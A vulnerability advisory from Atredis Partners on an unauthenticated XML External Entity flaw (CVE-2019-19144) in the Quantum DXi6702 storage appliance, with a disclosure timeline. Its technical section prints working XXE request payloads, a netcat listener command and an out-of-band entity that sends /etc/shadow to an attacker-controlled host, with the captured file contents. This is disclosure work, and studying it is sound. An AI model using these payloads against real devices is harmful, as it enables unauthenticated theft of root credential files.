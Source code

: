 # Quantum DXi6702 - XML External Entity Injection


## Vendors

Quantum Corporation


## Affected Products

Quantum DXi6702 2.3.0.3 (11449-53631 Build304)


## Summary

The Quantum DXi6702 Network Attached Storage device processes user-supplied XML data in unsafe ways, resulting in XML External Entity Injection. This issue can allow for an unauthenticated attacker to read arbitrary files from the device with root privileges.


## Mitigation

* No mitigations are known at this time.


## Credit

These issues were found by Justin Kennedy of Atredis Partners


## References

 * CVE-2019-19144


## Report Timeline

2019-08-22: Atredis Partners provided a copy of this advisory to Quantum Corporation by email.
2019-10-08: Atredis Partners provided a copy of this advisory to CERT/CC.
2019-11-21: Atredis Partners published this advisory.

## Technical Details

The Quantum DXi6702 authentication process requires the client to send their credentials as an XML document:

```
POST /rest/Users?action=authenticate HTTP/1.1
Host: 192.168.1.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.2
Content-Type: text/xml
X-Requested-With: XMLHttpRequest
Content-Length: 119
DNT: 1
Connection: close

<Credentials><UserName>admin</UserName><Password>password</Password><ClientInfo>GUI</ClientInfo><id></id></Credentials>
```

By setting up a `netcat` listener and specifying an XML External Entity, the device will connect to the `netcat` listener, confirming that XML External Entities are enabled:

```
POST /rest/Users?action=authenticate HTTP/1.1
Host: 192.168.1.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.2
Content-Type: text/xml
X-Requested-With: XMLHttpRequest
Content-Length: 252
DNT: 1
Connection: close

<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [ <!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "http://192.168.1.3:8881/?xxe" >]>
<Credentials><UserName>&xxe;</UserName><Password>admin</Password><ClientInfo>GUI</ClientInfo><id></id></Credentials>
```

```
# nc -l -v -p 8881
Listening on [0.0.0.0] (family 0, port 8881)
Connection from [192.168.1.2] port 8881 [tcp/*] accepted (family 2, sport 50547)
GET /?xxe HTTP/1.1
User-Agent: Java/1.6.0_26
Host: 192.168.1.3:8881
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
```

Using the `xxeserve` server tool by joernchen, the `/etc/shadow` file can be extracted, confirming that the process running the XML parser is running with root privileges:

```
POST /rest/Users?action=authenticate HTTP/1.1
Host: 192.168.1.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.2
Content-Type: text/xml
X-Requested-With: XMLHttpRequest
Content-Length: 159
DNT: 1
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://192.168.1.3:8888/xml?f=/etc/shadow">
%remote;
%int;
%trick;]>
```

```
$ ruby xxeserve.rb 8888
192.168.1.2 - - [24/Jun/2019:10:18:00 -0500] "GET /?p=root:$1$<redacted>:15622:0:99999:7:::
bin:*:15622:0:99999:7:::
daemon:*:15622:0:99999:7:::
adm:*:15622:0:99999:7:::
lp:*:15622:0:99999:7:::
sync:*:15622:0:99999:7:::
shutdown:*:15622:0:99999:7:::
halt:*:15622:0:99999:7:::
mail:*:15622:0:99999:7:::
news:*:15622:0:99999:7:::
uucp:*:15622:0:99999:7:::
```